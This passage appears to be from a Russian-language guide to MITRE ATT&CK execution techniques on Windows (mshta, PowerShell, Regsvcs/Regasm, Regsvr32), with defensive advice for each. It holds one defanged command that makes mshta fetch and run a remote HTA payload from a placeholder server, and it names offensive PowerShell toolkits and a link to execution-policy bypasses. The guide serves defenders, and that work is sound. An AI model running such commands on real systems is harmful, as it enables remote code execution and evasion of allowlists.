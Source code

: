 или напрямую, по URL-адресу:  
_mshta http\[:\]//webserver/payload\[.\]hta_

_Рекомендации по защите:_ Функциональность mshta.exe связана со старыми версиями IE, достигшими конца жизненного цикла. Блокируйте Mshta.exe, если не используете его функциональность.

### [PowerShell](https://attack.mitre.org/wiki/Technique/T1086)

_Система:_ Windows  
_Права:_ Пользователь, администратор  
_Описание:_ PowerShell (PS) — это мощный интерактивный интерфейс командной строки и среда для выполнения сценариев, включенная в систему Windows. Злоумышленники могут использовать PS для сбора информации и выполнения кода. Для примера, командлет Start-Process может запустить исполняемый файл, командлет Invoke-Command выполнит команду локально или на удаленном компьютере. PS также можно использовать для загрузки и запуска исполняемых файлов из интернета, без сохранения их на жесткий диск. Для удаленных подключений с помощью PS требуются права администратора. Существует целый ряд инструментов для атак на PS:

*   _[Empire](https://github.com/EmpireProject/Empire)_
*   _[PowerSploit](https://github.com/PowerShellMafia/PowerSploit)_
*   _[PSAttack](https://github.com/jaredhaight/PSAttack)_

_Рекомендации по защите:_ PS можно удалить из системы, если в нём нет необходимости. Если PS требуется, то следует ограничить возможность его запуска администраторами и выполнением только подписанных сценариев. Отключите службу WinRM, чтобы предотвратить удаленное выполнение PS-скриптов. Следует отметить, что существуют [методы обхода политик выполнения PS-скриптов](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/).

### [Regsvcs/Regasm](https://attack.mitre.org/wiki/Technique/T1121)

_Система:_ Windows  
_Права:_ Пользователь, администратор  
_Описание:_ Regsvcs и Regasm — это служебные утилиты Windows, используемые для регистрации в системе сборок .NET Component Object Model (COM). Оба файла подписаны цифровой подписью Microsoft. Злоумышленники могут использовать Regsvcs и Regasm для прокси-выполнения кода, когда в качестве атрибута указывается код, который должен быть запущен до регистрации или отмены регистрации: \[ComRegisterFunction\] или \[ComUnregisterFunction\]. Код с такими атрибутами может быть запущен даже если процесс выполняется с недостаточными привилегиями или вовсе «падает» при старте.

_Рекомендации по защите:_ Заблокируйте Regsvcs.exe и Regasm.exe если они не используются в вашей системе или сети.

### [Regsvr32](https://attack.mitre.org/wiki/Technique/T1117) [(Squiblydoo)](https://www.anti-malware.ru/news/2018-03-15-1447/25725%E2%80%8B)

_Система:_ Windows  
_Права:_ Пользователь, администратор  
_Описание:_ Regsvr32.exe — это консольная утилита для регистрации и отмены регистрации в реестре элементов управления OLE, например, ActiveX и DLL-библиотек. Regsvr32.exe подписан цифровой подписью Microsoft и может использоваться для прокси-выполнения кода. Например, с помощью Regsvr32 можно загрузить XML-файл, содержащий куски Java-кода (скриплеты), которые будут выполнены в обход белого списка.
